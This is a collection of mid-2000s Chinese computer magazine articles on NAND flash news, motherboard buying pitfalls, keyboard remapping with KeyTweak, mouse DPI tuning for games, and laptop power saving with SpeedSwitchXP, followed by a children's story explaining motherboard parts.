明天：三星的半导体部门执行长黄昌圭发表NAND flash硬盘的新突破，其采用了最新的50nm制程，成功量产12.8GBit(1.6GB)容量的NAND flash芯片，SSD技术可以达成25.6GB容量的硬盘，现时NAND硬盘的速度可达57MBps Read及32MBps效果理想，加入50nm可以让成本进一步下降，相信NAND快闪硬盘将很快量产。三星电子有充分理由推动闪存技术的发展，并最终用它取代硬盘。

随着技术的不断成熟，NAND型闪存将会在不久的将来（也许是2006年、2007年）全面进入我们的IT生活，为我们带来超凡的快感。也许，某一天我们只能在博物馆里回忆当年硬盘带给我们的乐趣了。

# 装机指南：什么样的主板不能买？

## SATA+EIDE组建混合RAID合理吗

在选购主板的时候，大家都会很自然地把目光停留在一些大家认为是“重点”的地方上。然而，商家们也是很是懂得抓住消费者的这点心理大做文章，避轻就重地过分夸大其产品优点、借以淡化缺点是十分惯常的手法。可是，主板在设计上的特点对于不同的用户来说，却有着合理与不合理的矛盾。就好像一件十分漂亮的衣服，穿起来却未必合身和舒适，甚至还会带来反效果。所以，无论在选择全新的还是二手的主板，都必须注意对于你自己来说，是否存在不合理的地方。

### 915主板用20Pin电源合理吗？

随着英特尔的915/925芯片组登场，标志着英特尔8XX系列芯片组的时代已经走向了没落，全新一代的硬件平台已经成形，各种硬件都向着新平台的要求靠拢。

在全新的硬件平台之中，CPU、显卡等耗电大户都提出了更高的功耗要求。因此，此前P4成熟时代中才被更新的ATX版本这次也再次被修改了。更新后的电源为ATX 12V-24Pin架构，外观上与原ATX 12V电源已不同，最明显的就是主板主供电接口由原来的20Pin增加为24Pin。此外，这次电源版本更新的最大重点是在于电源输出、负载能力的提升上！

不少了解不深的用户便错误认为新旧版电源之间只是接口上的差别，认为只要把旧版电源的电源接口转换一下就能用到新一代主板上，于是在面对新旧版电源的差价时犹豫了，选择了使用旧版20Pin电源的915主板。

说老实，电源的性能关乎整台电脑的生死存亡，虽然绝对不如显卡性能那样立竿见影，但是长期使用能力不足的电源供电，各硬件的寿命和故障率肯定大受影响！省下这么一点儿，实在不值啊！

**结论：使用20Pin电源的915主板不要买**



### PCIE + AGP并存合理吗？

随着游戏玩家对显示性能的无穷追求和显卡厂家的推波助澜，显卡的急速发展已经向硬件平台提出了全新的要求，目前基于PCIE界面的显示系统基本上已明确成为了未来发展的方向。可是，碍于目前基于AGP显卡的市场还不小，于是厂家们就推出了PCIE + AGP插槽并存的主板，作为一套着重“兼容性”的解决方案。而弊端就是在空间有限的主板上，将因AGP插槽的加入而损失一根PCI插槽位置。

实际上，同一显卡的PCIE版本和AGP版本在价格上已经差异不大，甚至已经一致了，对于装机的朋友来说，如何在PCIE和AGP之间选择相信已经无需多说了，PCIE显然是最佳的选择。

对于升级的用户来说，笔者的建议是趁目前AGP显卡未贬值前转让，补钱另购PCIE显卡（整套升级方案的预算也不过增加了两三百左右而已）。因为AGP显卡在PCIE、AGP并存的主板上运行，性能也会损失不少（这个AGP是透过相对缓慢的PCI总线转换而来的）。

最后我们再来算一下，1根PCIE-16x插槽、1根AGP插槽、3根PCIE-1x插槽，留给PCI插槽的位置一般只有2根左右了，鉴于目前市面上的PCI卡资源还非常庞大，例如1394卡、电视/采集卡、高档声卡、RAID磁盘阵列卡等，还有其他数之不尽的奇形怪状的PCI卡，可见PCI槽似乎变得比AGP槽更有保留意义了。

**结论：PCIE + AGP并存的主板不要买**



组建简单的RAID磁盘阵列，可以大大提升整个系统的存取性能，有效缓解磁盘这一大瓶颈对系统的拖累。随着硬件平台的发展，不少具备SATA界面的中高端主板都附带了SATA RAID功能。目前有些厂家还推出了一种主板，支持同时使用SATA和EIDE界面的硬盘，组建混合RAID/JBOD系统。

### 小资料
#### RAID、JBOD
大家熟悉的RAID磁盘阵列系统，可以通过多块硬盘的数种方式协同工作，提供或高存取性能或高数据安全性、或者两者并存的解决方案。而JBOD则只能把多块物理硬盘，构建成一块大容量的逻辑硬盘。

笔者认为，混合RAID系统是一种花巧而不实际的东西。一来，RAID系统的使用相对复杂，普通用户要驾驭并不容易，普通用户对RAID的需求本身就不太。二来，RAID系统的安全性不同儿戏，为了确保数据安全，RAID本身就对组成阵列的磁盘有要求：硬盘的牌子、型号、转速、容量、指标等都追求一致；而且用户的不慎操作也极易造成阵列索引丢失等问题而导致大容量阵列中的数据损失。所以，普通用户实在没有选择的必要。

**结论：没有必要为了混合RAID而选择的主板**

### 主板元件布局合理吗？

不少主板无论怎么看，工艺、用料、质量等本身都是没有问题的，可是别以为这样的主板就可以放心购买，因为主板上各种元件的布局是否合理也很重要。因为元件布局不合理所带来的麻烦，最常见的就是显卡和内存的位置冲突了。众所周知，现在的中高端显卡都很肥胖，除了一副金光闪闪的臃肿的铠甲之外（散热片和风扇），长长的尾巴也常常伸展到内存槽的位置上。情况允许的，只要把最靠近显卡的内存换插到其他内存槽上，便相安无事了。若内存槽都已满了，那么就只好忍痛放弃一部分内存了。因此，显卡和内存槽位置有冲突可能的主板就最好不要买了。此外，主板PCI等扩展槽在靠近机箱后挡板的一侧也必须注意，若这里没有突出的电容等元件，就很可能影响PCI卡的安装。

| 位置 | 问题描述 |
| :--- | :--- |
| 左上 | 内存槽千万不要挡在显卡槽的后面(图3) |
| 右上 | 北桥芯片上的大散热片与显卡插槽之间的空隙不够大，这样会影响到与带有背部散热片的高端显卡的安装(图4) |
| 左 | 一些小型板在设计时没有考虑显卡插槽与PCI插槽之间的距离，这直接就让PCI插槽成为摆设。(图5) |

**结论：元件布局不合理的主板不要买**

### 未来的“平台化”娱乐

看了上面的介绍之后，或许无论是Viiv还是AVIVO，在你的心目之中还只是一种抽象的概念而已，那么我们不妨设想一下，在不久的将来，我们的家庭多媒体娱乐彻底“平台化”之后，我们的影音娱乐将会有什么不同：

1.  彻底地傻瓜操作
    你不再为要教老人家如何使用电脑而伤脑筋了，因为只要通过按动遥控器上面的几个按钮，老人家即可在你不在场的时候自由控制电脑来看电视，看电影（当然你得事先准备好影碟）。而不像现在，从教他们开机、登录，到打开播放软件，选择电影文件或者影碟这样教上一个小时……

2.  无线网络化
    UWB超带宽技术加上Wi-Fi技术，令你的所有家庭电器都连通起来，并且资源共享。你可以在房间里面的电脑播放电影，然后大厅里面有无线网络功能的高清晰电视直接接收并播放。

3.  资源自由转换
    在统一的平台上，各种不同格式的影音资源可以随意转换并且处理，而这一切同样也是傻瓜化的：你可以把MP3汇集成为CD专辑刻录好，放在汽车音响里面倾听，也可以从不同的CD专辑里面精选出自己爱听的另外刻录成集。每逢节日家庭聚会，你用DV拍摄下来的欢庆场面可以制作为一张DVD光盘，或者一段小小的高清晰电影文件，随心所欲地在各种媒体上面播放。VCD变成DVD，DVD变成蓝光，视频、音频的随意处理，可以说每个会用遥控器的人都可以是专家。

未来是美好的，相信我们已经看到了家庭多媒体娱乐平台化之后的美好景象，随着技术的不断进步，相信这美好的一切迟早都会来到我们身边，现在我们就做好准备等待着它们的到来吧。

（广东 水月子）

# 二手主板、小厂手工板注意维修史

二手的电脑配件价格通常很吸引，但是风险一般都比较大，尤其是二手主板。因为主板上的元件、功能模块也很多，一般的试用是极难发现主板上的各种“暗病”的。当然了，有风险就不购买是不科学的做法，只要小心谨慎就可以尽量降低风险，例如选择可靠的卖家、认真试机等。笔者在这里主要提醒大家的是：注意主板是否有维修史。因为一般来说，需要维修的主板本身的可靠性就比较低，要么是其设计和质量可能存在缺陷，要么就是使用环境恶劣、长期使用等。此外，有维修史的主板旧病复发的机会也蛮大的，毕竟那些所谓“专业”的维修人员，无论是工艺还是用料都存在很大的疑问。

是否有维修史，可以细心地从主板身上的维修痕迹找到答案。首先，一些比较粗制滥造的维修人员，会在主板正面留下比较明显的维修痕迹。例如图6所示的主板，两个小导线和一个大电容就十分明显了，只要买家留了个心眼，绝对不难看到。此外，现在很多维修人员都做得比较“干净”，不会留下十分明显的维修痕迹。但是只要大家细心观察主板的背面，就能发现维修时所加焊的小元件（见图7）。而某些设计水平很差的主板厂商在设计走线时，由于技术实力原因往往会导致最后的成品有缺陷。此时，便采取人工修补的方法来解决问题，这种因设计不合理而出现的导线，称之为“飞线”（见图8）。最后顺便一提，若对方是非二手卖家的卖家，那么还可以透过查看其主板上是否有维修标签来判断是否有维修史（见图9）。即使对方有意把标签撕毁，不干贴的痕迹还是隐约可见的。

**结论：有维修史的二手主板不要买** (biosisi)






# Office 键盘 让办公一族如虎添翼

对于办公一族，特别是IT业界的办公族来说，Office操作一定是相当频繁的。在这个事事追求效率的年代，相信你一定为记住Office繁多而又复杂的快捷键而伤透脑筋，其实只要拥有一个Office键盘，一定能够令你的头疼顿消，而且效率大增哦！

所谓Office键盘，其实和市面上流行的“多媒体键盘”一样，除了正常的101个按键之外，还增加了多个配合Office的“快捷键”，只要你轻轻一按，不需要组合键也不需要动鼠标，就能够使用Office里面的某个功能了。市面上的Office键盘种类不少，而最著名的莫过于微软的“自家”键盘，Natural键盘设计的，接口采用PS/2和USB，最大的特点就是它拥有多个“热键”，能够打开和运用Office里面的各种功能。这些热键就位于传统的“F1、F2”之类的位置，和F快捷键重合，当我们需要F功能键原本功能的时候，按下一个特制的F Lock‘按键就可以了（见图2）。




# 用功能键帮你提高效率

首先我们看看键盘的左边（见图3），这是微软Natural独有的“功能区”。最上面的两个键就是“向前翻页”和“向后翻页”功能，我们在浏览网页的时候，左手一般是不需要操作的（主要是右手操作鼠标），因此可以灵活地按这两个键来切换网页显示，让右手负担减半哦。在这两个键下面有一个触摸滚轮，作用就相当于鼠标中央的滚轮。



当我们在Office里面处理一篇长长的文稿，双手正在打字的时候，肯定不希望右手离开键盘去操作鼠标滚轮，或者点击滑动条向下拉动，这时候这个滚轮就派上用场了，翻页显示得格外轻松！在触摸滚轮的下方，就是“剪切、复制、粘贴”这三个我们使用最频繁的命令，把我们彻底从“Ctrl+X、C、V”这样的操作之中解放出来。相信不少朋友都看到了最下方的两个Application按键，用它可以实现我们通常按ALT+TAB键才能够实现的程序切换，这一下又让我们省了不少时间。

除了左边的“功能区”之外，传统的F快捷键也被Natural赋予了多种不同的功能，包括“帮助、刷新、打开、关闭、返回、前进、发送、保存、打印、撤消”等等，此外Natural自带的多媒体键还能够帮我们打开Excel、Word、Outlook和浏览器等应用软件，可谓方便至极。“Task Pane”任务窗快捷键更加是完美配合OfficeXP的新特性。虽然要实现这些功能并不难，但是微软的贴心设计让我们不得不服，原来Natural上面的多媒体按键、F快捷键都是可以定义的，我们能够通过附带的IntelliType Pro软件（见图4）来对超过三十个按键进行定义，而且完全兼容非微软公司的软件。有了Natural之后，我们的工作就大大简化了。



# 买不到Office键盘怎么办？

虽说上面这款微软Natural Office键盘只是399元的价格，但是公司给我们配置的电脑未必会带有Office键盘，一个键盘还凑合，要是几十上百个这样的键盘，估计老板要发飙了。不过除了我们自己出钱买一个之外（一般没人那么奢侈吧？），我们还有另外一种方法来打造一个Office键盘，那就是借助一个叫做KeyTweak的小软件了。它能够通过调整操作系统的注册表来将键盘上面的按键“变成”另一个按键，你可以定义这个“新按键”的功能，相当于微软的Office键盘哦！

1.  第一步：首先我们可以在http://ftp.pconline.com.cn/pub/download/200505/keyweak.zip下载KeyTweak的汉化版本，下载之后解压运行我们就可以看到它的主界面了。
2.  第二步：我们可以看到一个键盘的分布图，现在点击一下你想定义的某个按键，譬如说“F12”吧，点击一下之后，下面的一个下拉菜单就会被激活，询问你要定义成一个什么样的新按键，接下来我们把想定义的键在下拉菜单之中选择，它就会在右边的“等待修改的映射”列表中显示出来。
3.  第三步：当所有要映射的按键都设置完之后，我们只要点击一下“应用”即可完成映射的步骤了。

-   要清除的时候只要在列表之中选好按键，然后点击“清除”或“全部清除”，最后点击“应用”就可以了。此外我们还能禁用按键，只要选择了某个按键后点一下“禁用按钮”，这样这个键我们无论怎么按都没反应了。
-   要将你的普通键盘加上接近微软Office键盘的功能，我们要先看看KeyTweak的特殊功能按键区域（见图5），这里显示的就是KeyTweak能够帮我们在键盘上面实现的功能了，其中包括了：媒体播放、前进、后退、停止播放、静音、音量大小、向前/向后翻页、刷新网页、显示主页、电子邮件、收藏夹、电脑睡眠、关机、我的电脑、计算器等等。要实现这些功能很简单，和定义普通按键是一样的，一般来说我们可以把这些特殊功能定义在F1~F12这些按键上，之前要看看是否和别的软件快捷键冲突。下面我就举例说明，如何把F12定义为“我的电脑”快捷键：

首先在软件主界面的键盘模型上面点击“123”键，就是在F12的位置上面那个。然后在下面的“键盘设置”框中展开“选择新的按键”下拉菜单，在里面找到“My computer”之后选上，然后点击“映射按键”，看到按键出现在“等待修改的映射”框里面之后再点击“应用”即可完成。这样以后每当我们打开“我的电脑”只需要按一下“F12”按键就可以了。现在马上就动手，打造属于我们自己的办公专用键盘吧。



# 返‘鼠’如飞，鼠标精度随心调

‘速度’和‘精度’，永远是射击游戏玩家们不断追求的至高境界。所谓‘速度’，就是要求鼠标指针能以极快的速度，快速地到达目标位置。而‘精度’则在‘速度’的基础之上，又对鼠标指针是否能够毫无偏差‘对准目标’提出了极高的要求。除了游戏之外，在其他的应用（譬如平面设计）上，人们已经不再去追求过高的移动速度，因为这个时候，鼠标指针的精度才是设计者最为看重的。那么，我们应该如何根据不同的应用层面，来调校自己鼠标的精度呢？请看本文！

# 是什么影响着鼠标的精度？

对于光电鼠标来说，其实影响其精度的，有两个很重要的指标，它们分别是DPI和刷新率。其中，DPI除了影响鼠标的精度之外，还会影响鼠标指针的移动速度。

## 1. DPI对鼠标精度的影响

我们知道，DPI是一个表示鼠标移动速度（其实是精度）的硬件指标。DPI值越低，鼠标指针在屏幕上的移动就越慢。反之，DPI的值越高就移动得越快。以800DPI和400DPI的鼠标来说，800DPI的鼠标仅需要移动1/800英寸的距离，就可以使指针在屏幕上移动1个像素，而400DPI的鼠标则需要移动1/400英寸的距离，才能使指针在屏幕上移动1个像素。由此可见，800DPI鼠标只需要400DPI鼠标一半的路程，即可以完成1个像素的移动（直接的反映就是在屏幕上，800DPI鼠标指针的移动速度要比400DPI鼠标的指针移动速度快，而鼠标本身在鼠标垫上移动却是相等的）。

在同样的鼠标移动距离下，400DPI的鼠标能不能获得800DPI鼠标的光标移动速度呢？当然是没有问题的，在Windows中，直接提高鼠标指针的移动速度就行了。然而，这样做的不利后果却是：当鼠标在快速移动时，也许看不清精度上有什么问题，而在我们需要指针进行精确的定位时（如在Photoshop中用钢笔工具抠图时），你方才会发现鼠标指针已经不再是以1个像素的精度来定位，而变成以2个甚至4个像素的精度来定位了（意思是鼠标对屏幕像素的操控能力下降了，也就是在软件强行对移动速度进行提升的情况下，指针的定位精度却下降了）。因此，选择DPI值高的鼠标，其不仅可以用小幅的操作来获得高响应的移动速度，并且还可以同时获得更精确的像素定位精度（因为它是硬件连续采样，而非通过软件干预来提速）。

也就是说，高DPI值的鼠标，其指针在屏幕上快速移动时，它的采样是连续的，因此不会出现跳跃或指针突然丢失的情况，而低DPI鼠标，由于其指针在快速移动时，其采样不是连续的，因此必然出现跳跃式的采样，从而使鼠标的定位精度降低。

前面，我们只是讨论了鼠标在高速移动状态下，高DPI值鼠标与低DPI值鼠标在定位精度上存在的区别。然而，在不需要鼠标指针高速移动的时候（即指针低速移动时，譬如作图、在CS游戏中进行狙击时），为什么反而要降低鼠标的DPI值呢？这是因为，处于低DPI值的鼠标，在进行慢速的移动时，其指针的移动速度会更为的迟钝（但这并不影响它的定位精度），因此我们在操控鼠标进行低速移动时候（即需要指针进行高精度的定位的时候）就可减少用手操作鼠标所产生的误差，更容易的将鼠标的指针对准目标（相当于鼠标的定位精度提升了）。

## 2. 刷新率对鼠标精度的影响

刷新率这个指标，直接反映了光学传感器在快速捕捉图像时，其捕捉能力的强弱。这个能力越强，其获得的信息量就越大，光电鼠标的反应就会更为的快速和准确。而如果刷新率不足（如早期的1500次/秒或者2000次/秒等），则会在鼠标指针快速移动的情况下，出现‘丢帧’现象，从而使鼠标的定位精度受到影响。另外，由于刷新率对应着光学传感器的帧速率，因此这个帧速率越高，则在一定的时隙之内获得的信息也将越充分、其图像越连贯，帧与帧之间的对比也将更为有效和准确。因此可见，鼠标的刷新率越高，其在高速移动之下的定位精度也将越高。

# 如何来调整鼠标的精度

## 1. 通过系统功能调整鼠标精度

在Windows XP操作系统的‘控制面板’中，双击‘鼠标’，在‘鼠标属性’窗口中，单击‘指针选项’标签。然后在‘选择指针移动速度’一项中（见图），我们就可以调节鼠标指针的移动速度了。当然了，指针的移动速度越高，那么鼠标指针的定位精度也会相应降低。在这里，如果我们选中了‘提高指针精确度’，此时的鼠标指针的移动速度将会更快，相当于给鼠标增加了一个加速度。为了确保精度，通常情况下不建议选中‘提高指针精确度’一项。



去除加速度的优点在于可以保持鼠标操作瞬间的连贯性。这点大家可能已经注意到了，鼠标的加速度其实是一个移动速度‘由慢到快’，然后再‘由快到慢’的速度变化过程。因此，如果我们去除鼠标的加速度，那么鼠标在移动的过程中，其移动将变得更为的均匀和易于控制。因此，如果我们提高鼠标精度，可在需要的时候，将鼠标加速度关闭，以提升其精度。

在这里笔者强烈建议大家优先使用鼠标自带的驱动程序，这样可以更全面的来调节鼠标的各项工作参数。以笔者自己使用的罗技光电鼠标为例，在安装了罗技公司的驱动程序之后，在罗技鼠标的驱动程序中，鼠标指针的移动速度（Speed）变得更为精细，Slow表示‘慢’，Fast表示‘快’，越‘慢’精度越高，但指针移动困难，因此使用者可以选择一个适合的移动速度。另外，这里关于加速度也有明确的调节选项，其中我们可以选择‘No’来去除鼠标的加速度，以提高鼠标在移动中的瞄准精度，因此我们可以选中‘Disable acceleration in games’，以便在游戏中禁用鼠标的加速度。

## 2. 在游戏中调整鼠标的精度

当前，在不少第一人称射击游戏中（譬如CS、QUAKE 3、DOOM3），以CS这款游戏的鼠标调节为例，在‘Options’/‘Mouse’中，我们可以对鼠标进行设置。其中，鼠标过滤（Mouse Filter）：这个设置将平滑鼠标的移动。听起来很玄乎，但请务必去掉该选项，否则它将细微的修正你的瞄准，从而影响鼠标的定位。CS会计算鼠标在两帧图像之间的所有移动，然后求取一个平均值，这样会使你的鼠标动起来很‘粘’。这也意味着你鼠标的最终移动取决于一个旧的数据，意即你无法准确的将准星拉到你期望的地方。鼠标敏感度（Mouse sensitivity）：此选项可以让你在游戏进行的时候调节你的鼠标速度，它也决定了你准星的移动速度。通常推荐在5.0以下，不过你的选择取决于你的习惯与外设。这绝对不是说鼠标速度越低越好，职业CS选手的速度有设置为1.7的，还有更慢的，但是他们使用的鼠标跟你的不一样。比如同是设置为1.7，一个25块钱的杂牌光电鼠与微软IE4.0鼠标在游戏中的速度是绝对不一样的，所以根据实际情况，合理的择适合自己的鼠标敏感度。实际运用中，虽然降低鼠标敏感度可以提高狙击武器在射击时的精度，然而也必将影响到你使用手枪、冲锋枪一类需要高反应速度的武器。特别是在巷战的时候，很有可能是在来不及将枪口对准敌人，已经被人一枪爆头。因此，CS游戏中的鼠标敏感度应当根据自己鼠标自身的灵敏度和在游戏中选择武器类型来加以合理的设置。

## 3. 用鼠标自带的快捷按钮控制精度

目前市面上，开始出现配备有鼠标精度（灵敏度）调整快捷按钮的鼠标（见图2），譬如罗技MX518光学鼠标。通过鼠标滚轮旁边的两个快捷按钮，我们可以从容、快速的调节鼠标的灵敏度。



罗技MX518这款鼠标的精度高达1600DPI，在普通的应用中，这样高的DPI不太容易操控，因为移动速度太快。因此罗技才设计了灵敏度快捷调节按钮，以便让用户根据不同的应用，轻松调节鼠标的灵敏度。其中，快捷按钮可支持400 DPI、800 DPI、1600DPI三档调节，而鼠标的Setpoint高级游戏设置中，可实现400DPI、600DPI、800DPI、1200DPI和1600DPI的调节。

之所以罗技MX518可以做到这点，是因为罗技MX518采用了安捷伦A3080光学感应器核心组件（支持从400 DPI ~1600 DPI的可编程光学分辨率调节功能，并在CY7C63743-PC芯片的支持下，实现可编程功能的存储）。

# 鼠标快捷精度调节按钮，该怎么用？

## 1. 在游戏中调整鼠标精度

在游戏中，通过快捷按钮，我们可因应不同的武器，以自由自在、快捷的方式来进行鼠标精度的调整。如在CS中，在使用MP5或B43时，由于鼠标移动速度快（精度相对降低），因此在反应上就会更加的灵活主动，其杀伤率也会相对提高（因为速度快，可以指哪儿打哪儿）。而在使用AWP等狙击类枪支时，则就可以用快捷按钮，降低鼠标的灵敏度（速度），从而有效提高鼠标的定位精度，从而大大提高枪支瞄准精度。

## 2. 在平常的使用中调整鼠标精度

平时，我们对于鼠标的精度要求不是很高，譬如看网页等，这个时候我们可以将鼠标的速度调快一些，这样可以有效的提高工作效率。然而，但在做一些精细活儿时，如用PS处理图片、AutoCAD绘图时，如果鼠标速度太快的话，就会造成鼠标精度下降，从而使鼠标操作困难。在这个时候，我们就可以用快捷按钮来降低鼠标的灵敏度，减少鼠标操作所带来的误差，获得更准确的鼠标指针定位。

(王军)

# 本本省电有道——SpeedSwitchXP 设置指南

你是否想让自己心爱的本本(笔记本电脑昵称)电池使用时间更长? 是不是希望你的本本在你进行文字处理、浏览网页的时候运行得轻松一些? 来吧, SpeedSwitchXP 可以帮你做到这些。下面, 就以英文版的 SpeedSwitchXP 1.4 为例(下载地址:http://nj.onlinedown.net/soft/30240.htm, 操作系统为 Windows XP 专业版 Service Pack 2)向大家介绍如何对笔记本运行频率进行设置, 达到自由地进行降频降温、延长电池使用时间的方法。

SpeedSwitchXP(以下简称 SSXP)的安装非常简单, 运行安装程序后一路 Next 即可, 这里就不啰嗦了。运行 SSXP 后, 在任务栏上会出现一个小图标, 用过 IBM 的本本的朋友可能会发现它跟 IBM 的 SpeedStep 软件的图标如出一辙, 其中缘由不言自明。但是 SSXP 可以应用在任何品牌的笔记本上, 而且功能更强大, 设置更自由。

首先, 记住下面的四个图标, 它们分别对应了右击出现的菜单上的四种本本运作模式, 即: 性能优先、电池优化、最大电池能力和动态调节(见图1)。右击系统托盘上的图标, 弹出快捷菜单, 就可以在四种模式里进行自由的切换。

"性能优先"模式: CPU 将保持最高工作频率, 运行大型软件或者玩游戏的时候, 可以设置成这一模式。

"电池优化"模式: CPU 在较低频率下运行, 这一模式较适合于处理文本、上网浏览等工作。例如 Pentium 4-M 1.8GHz 的 CPU 此时将工作在 1.2GHz 左右。

"最大电池能力"模式: CPU 在较低频率下运行, 并且随着电池电量的不断减少, CPU 频率将进一步地降低。

"动态调整"模式: 将根据 CPU 的利用率进行动态调整。例如 Pentium4-M 1.8GHz 的 CPU, 在 CPU 利用率高的时候, 将会全速工作, 而利用率不高时, 会自动降为 1.2GHz。

如果你没有很多时间进行设置, 那么, 记住这四个图标, 利用 SSXP 的默认设置, 就可以帮助你很轻松地管理好你的 CPU。但是, 如果你想更好地设置你的节能方案, 那么, 下面就为大家介绍如何对 SSXP 进行详尽的设置。

用鼠标左键单击托盘上的 SSXP 图标, 即出现 SSXP 设置的主界面。在 Main power options 里, 可以具体地设置电源方案。左边为使用交流电时的方案, 右边为使用电池时的方案, 选项从上到下依次为: CPU 速度; 关闭显示器的时间、硬盘停转时间、进入待机状态时间和进入休眠状态的时间。如图 2 设置时, 当本本从外接交流电切换成电池的时候, CPU 就会自动切换至 "最大电池能力"模式, 其他节电方案也会随之改变。

点击 Options, 可以对 SSXP 作出更详细的设置。这里介绍 General 选项卡里的一些常用设置。要让 SSXP 随 Windows XP 一同启动, 可以在 Enable Autostart 前打钩。如果打开 "Debugmode", 程序将会把运行状态写入日志文件 "SpeedswitchXP.log"。而在 Time functions 区域里, 可以设置是否读取 CPU 速度(Read CPU speed)、读取 CPU 负载(Read CPU load)、电池电量显示方式等。当所有选项全部打开时, 把鼠标悬停在 SSXP 的托盘图标上, 就可以看到目前的节电方案、CPU 频率、负载等(见图2)。SSXP 的 Options 里还有许多高级设置, 篇幅原因, 这里就不再介绍了。

希望 SSXP 能够帮助你在今后的工作、生活中更好地保养本本, 让你的本本工作得时间更长、更轻松。

# 小提示

# 本本省电小窍门

- 1. 开启系统休眠功能。休眠功能能缩短本本开机的时间, 而且在你长时间离开的时候, 此功能还能自动保存当前所有操作及已经打开的窗口, 同时关闭电源。
- 2. 关闭屏幕保护, 开启屏幕自动关闭功能。屏幕可以说是笔记本电脑各个部分中最耗电的一个部分, 开启屏幕自动关闭功能不仅仅能降低耗电量, 还能保护你的液晶显示屏。
- 3. 卸下各种不必要的配件, 如各种 PCMCIA 接口的读卡器、电视卡等等, 还有各种 USB 闪存盘、鼠标、键盘之类的配件。这些配件只要接上了, 就要用电。正所谓积少成多, 在我们不需要用到这些东西的时候, 我们一定要将它们卸下来。





(沈洋)

# 漫游主板世界

在生日当天的晚上, 大伙儿围在生日蛋糕面前燃起了蜡烛, 让小强在十二根蜡烛前面许一个愿。“如果能够有一个老神仙出现, 带我跑进电脑里面就好了……”小强闭上眼睛默念着, 想不到当他睁开眼睛的时候, 却发现火苗居然停止不动了! 就连身边的爸爸、妈妈、爷爷、奶奶都像木偶一样静止在原地! “不用害怕, 我就是你想要找的‘神仙’了, 我把时间暂时停滞住了, 今天来到这里是为了实现你的愿望而来的!”一个光球出现在小强的面前, 从里面传来一个慈祥和蔼的男中音。“那么说你可以带我到电脑里面了?”小强的不安在一瞬间烟消云散, 心里面全部都充满了兴奋。“没错! 来吧我的孩子, 我们一起到电脑里的世界去漫游吧!”话音刚落, 小强只觉得全身上下都被光球包围住, 等到白光散去, 他惊愕地发现已经站立在一块巨大的, 花花绿绿的地板上面, 地上划满了各种呈平行线排列的图案, 远处还有几块看上去和地板差不多的“墙壁”, 通过一个白色的“槽”与地板相连, 这一切对他来说都是那么陌生。

# 主板是个小小的世界

“这里就是主板了, 也是整部电脑的‘地基’!”光球在小强耳边说道。

“主板? 它在电脑里面起着什么样的作用啊?”小强不解地问道。

光球说道: “主板也叫做母板, 英文叫做 Mainboard。它是整部电脑的平台, 平时我们需要用到的一切设备, 包括什么内存、CPU、光驱、硬盘、软盘、显示卡、声卡、网卡之类, 都是通过主板这个平台连在一起, 从而开始协同工作, 构成一部电脑的。如果将电脑比喻成一栋大楼, 那么主板就相当于地基, 各种设备也就是不同的房间了。”光球话音刚落, 一幅主板原理图出现在小强的面前。

“哦! 明白了, 我们平时听的音乐, 看的电影, 那些东西都要连接在主板上面, 才能够工作呀!”小强说着用脚踩了踩地板, “这个主板是用什么东西做的呀?”

“主板是由很多不同的部分组成的, 你踩着的这个叫做印刷电路板, 也叫做 PCB 板(见图1), 你可别小看这块板, 里面可是有至少四到六层厚哦! 里面有数不清的电路, 就是那些平行的条纹了, 主板上面不同的部分就是通过这些电路连接起来的”光球停顿了一下, 又继续说道, “以前主板有很多种规格, 包括 ATX、Micro-ATX、Baby-AT 和 NLX, 现在好了, 大家都用 ATX 的, 标准统一, 使用起来很方便!”

小强在主板上面跳了几下, 此时他发现不远处的地板上有一个四方形的绿色方块, 明显要比别的地板高, “这个是什么东西?”

“这是主板的南桥芯片(见图2)!”

“南桥芯片? 为什么主板里面有桥, 主板里面也有河流和公路吗?”小强刚说完, 就听到光球笑了起来: “没错, 主板就像一个‘小世界’, 你所看到的一条条电路不正是公路吗? 主板上面的一个个原件, 就好比工厂和仓库, 就是这些‘公路’把各个工厂生产出来的‘产品’运输到主板的各个地方!”

看见小强似懂非懂的样子, 光球又接着介绍: 主板里面最重要的芯片有三种, 分别是北桥、南桥和 BIOS 芯片(见图3)。北桥芯片和南桥遥遥相望的那个, 它的主要功能是数据传输与信号控制, 也就是一个‘交通调度员’, 它一方面通过前端总线与 CPU 交换信号, 另一方面又要与内存、显示卡和南桥交换信号, 成为 CPU 和内存储设备(内存、显卡)之间的‘桥’。而南桥芯片, 就是相当于一个‘工厂’, 主要负责外部设备的数据处理与传输, 硬盘、闪存盘, 光驱, USB 设备等等都要通过它来控制。而 BIOS 芯片就是把一些直接的硬件信息固化在一个只读存储器内, 是整台电脑的软件和硬件之间的重要接口, 相当于一幅‘地图’, 告诉我们的软件系统在电脑里面究竟有什么硬件, 所以它的性能直接关系到整部电脑的运行速度和稳定性。









# 主板世界的心脏

在光球的称赞声中，小强来到了一个脸朝上躺在一块乳白色的“毯子”上，身上还盖着一个巨大的风扇和散热铜片的家伙面前，“这个东西是什么？为什么要那么大的风扇？”

“这是电脑的‘心脏’，叫做CPU，也就是平时所说的中央处理器，现在外面主流的CPU有Intel(英特尔)和AMD两种，它们各自又有双核心，单核心，32位，64位之分。”

“那我是不是买了什么CPU都可以插到这上面？”

“当然不能，CPU的型号是由插槽来决定的，你看到的CPU身体下面的那个乳白色的‘架子’就是CPU插槽了，譬如说现在英特尔的CPU就有Socket 478, LGA775(见图4), AMD的就是Socket 940和Socket 939、Socket 754、Socket 462等等插槽，以后你要升级CPU和主板，一定要看清楚两者是否兼容哦。”

“那么多的型号呀？！”小强瞪大了眼睛，“那我买什么插槽的CPU才好啊？是不是数字越大越好？”

“呵呵，就拿英特尔的CPU来说，Socket 478都是一些比较‘旧’和‘低端’的，譬如单核心32位的P4A, P4B, P4C和赛扬，而LGA775主要就是双核心的P4，还有64位的P4。AMD方面，Socket 754和Socket 462比较便宜，因为二级缓存比较少，性能也低点，Socket 940和Socket 939性能强，价格也相对较高，就看你自己需要什么性能咯！”

“64、32位？双核心？二级缓存？”小强对这几个名词一脸的茫然。

“我们现在的CPU大多数都是32位的，64位的性能要好很多，是以后的趋势，不过也需要64位的软件才能够发挥。至于双核心，简单来说就是一个CPU有两个心脏，可以在同样的时间里面干接近多一倍的活。而二级缓存嘛，说了你也不懂，反正越多越好就是了，以后关于CPU的事情我可以慢慢跟你说哦！”



# 内存是个大仓库

这时光球飞到四条长长的，分成两组不同颜色的插槽前面：“你看到了吗？这就是内存插槽了(见图5)，我们平时所说的256MB内存，512MB内存，1GB内存都是要插在这里才起作用的。”

小强看着内存槽，又看看CPU那边：“神仙伯伯，内存是不是和CPU一样，要有不同的插槽啊？”

